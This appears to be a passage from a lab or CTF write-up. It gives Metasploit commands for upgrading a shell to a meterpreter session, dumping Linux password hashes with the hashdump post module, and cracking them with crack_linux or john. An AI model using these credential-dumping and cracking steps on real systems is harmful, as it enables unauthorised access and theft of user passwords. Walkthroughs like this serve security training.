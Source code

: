 
Upgrading the session gotten to a meterpreter session
```
sessions -u 1
```
Using a metasploit module to dump credentials
```
use post/linux/gather/hashdump
set SESSION //set this to the meterpreter session
```
Then after unshadowing, use this auxiliary module
```
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

>You can also use john to crack the hash directly

